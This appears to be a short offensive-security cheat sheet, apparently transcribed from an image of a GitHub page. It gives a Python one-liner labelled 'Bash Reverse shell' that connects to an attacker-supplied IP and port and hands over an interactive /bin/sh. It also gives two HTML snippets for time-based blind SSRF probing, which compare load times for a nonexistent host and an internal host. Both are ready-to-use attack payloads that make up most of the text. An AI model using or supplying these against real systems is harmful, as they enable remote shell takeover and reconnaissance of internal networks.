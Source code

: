 ## Bash Reverse shell
```
export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

```


# Time-Based SSRF
Send valid internal address and invalid address, Then observe the time difference. 
```
<html>
    <body>
        <b>Time-Based Blind SSRF</b>
        <img src="http://blah.nonexistent.com">
    </body>
</html>


#######################################
<html>
    <body>
        <b>Time-Based Blind SSRF</b>
        <img src="http://internal.app.local">
    </body>
</html>

```
